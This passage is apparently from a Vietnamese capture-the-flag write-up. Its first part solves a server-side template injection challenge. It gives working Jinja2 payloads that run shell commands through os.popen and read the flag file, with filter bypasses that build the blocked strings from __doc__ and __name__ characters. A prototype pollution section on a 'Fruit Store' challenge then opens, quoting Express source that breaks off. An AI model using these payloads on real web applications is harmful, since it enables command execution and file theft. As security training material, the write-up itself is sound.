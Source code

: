 - Cách giải quyết:
Sau khi tìm hiểu được lý do hoạt động của bug này ta tiến hành viết payload, mò tiếp google tìm lệnh cách triển khai thì ta [tại đây](https://programmer.group/ctfshow-question-brushing-diary-web-ssti-web361-372.html) có dòng: `{{cycler.__init__.__globals__.os.popen('ls').read()}}` tuy nhiên bị chặn bởi filter, đổi l: `().__doc__[[[],[],[]].__len__()]`, s: `().__str__.__name__[[[],[]].__len__()]`
Payload:
`{{cycler.__init__.__globals__.os.popen(().__doc__[[[],[],[]].__len__()]+().__str__.__name__[[[],[]].__len__()]).read()}}`
![](https://i.imgur.com/TMmn5Xt.png)
Có sau khi ls thì có file flag, dùng tiếp lệnh:
`{{get_flashed_messages.__globals__.__builtins__.open("flag").read()}}` tại [đây](https://0xhorizon.eu/writeups/fantasy_book/) mà flag cũng bị ban nên tiếp tục đổi:
`flag = [].__doc__[-[[],[],[],[],[]].__len__()]+\().__doc__[[[],[],[]].__len__()]+\().__add__.__name__[[[],[]].__len__()]+\().__gt__.__name__[[[],[]].__len__()]`
Payload:
`{{get_flashed_messages.__globals__.__builtins__.open([].__doc__[-[[],[],[],[],[]].__len__()]+().__doc__[[[],[],[]].__len__()]+().__add__.__name__[[[],[]].__len__()]+().__gt__.__name__[[[],[]].__len__()]).read()}}`
![](https://i.imgur.com/CWyuQ3a.png)
**Ghi chú:** các payload có thể tự mò trên console cũa python để kiểm tra kết quả trả về
Ta tìm được flag là: `FPTUHacking{d4y_d1_0ng_ch4u_0i,ban_da_thoat_khoi_EHC_hair_salon_roi}`

## Prototype Pollution

Là kỹ thuật tấn công nhắm vào javascript runtime nhằm kiểm sót các giá trị mặc định, giả mạo logic của ứng dụng nhằm ddos hoặc là thực thi mã đọc từ xa.

### Fruit Store

Coi toàn bộ source của bài tại [đây](https://github.com/Trumpiter-max/Tricks-in-web-exploit/tree/main/Storage/CTFs/Prototype%20Pollution/Fruit%20Store%20tjctf%202022).
Bắt đầu vào thì ta sẽ thấy giao diện như này:
![](https://i.imgur.com/cw0Ed7Z.png)
Nhìn vào code ta sẽ thấy:

```js
onst express = require('express');
const session = require('express-session');
const fs = require('fs');

const app = express();

const fruits = require('./inventory.json');

const fruit = {
    name: 'some fruit',
    price: 0.25,
    description: 'a fruit',
    quantity: 1
};

fruits['grass'] = {
    name: 'grass',
    price: 2.5e+25,
    description: fs.readFileSync('flag.txt', 'utf8').trim(),
    quantity: 1
};

app.use(express.json({ extended: true }));

app.set('view engine', 'ejs');

```